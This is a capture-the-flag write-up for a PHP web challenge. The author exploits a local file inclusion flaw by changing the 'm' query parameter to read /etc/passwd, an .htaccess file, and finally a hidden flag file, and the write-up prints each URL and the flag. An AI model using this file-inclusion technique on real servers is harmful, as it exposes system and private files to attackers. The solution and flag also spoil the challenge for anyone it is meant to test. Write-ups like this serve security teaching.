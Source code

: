 # Hot Acess

> This small program lets you load convenient and simple PHP modules and resources from this Apache webserver. Check out what you can access!

I read the source of the index page, and found the links that were used to load php files.
```html
		<ul>
			<li> <a href="http://jh2i.com:50016/?m=modules/date.php"> date </a></li>
			<li> <a href="http://jh2i.com:50016/?m=modules/time.php"> time </a></li>
		</ul>
```

So I changed the query string to load `etc/passwd`
> http://jh2i.com:50016/?m=\etc\passwd
and it worked!   

![etc/passwd](1.png)

Then I tried opening .htaccess file, and it worked to and it gave this location a directory

```xml
<Directory /var/www/html>

	Options Indexes FollowSymLinks MultiViews
	AllowOverride All
	Order allow,deny
	allow from all
 
 </Directory>

  <Directory /var/www/html/sshh_dont_tell_i_hid_the_flag_here>
	
	AllowOverride All
 
 </Directory> 
```
![.htaccess](2.png)

So the flag has to be inside this directory `/var/www/html/sshh_dont_tell_i_hid_the_flag_here`, I tried opening http://jh2i.com:50016/?m=/var/www/html/sshh_dont_tell_i_hid_the_flag_here/flag.txt and it gave the flag!
![Flag](2.png)

> #### LLS{htaccess_can_control_what_you_access}




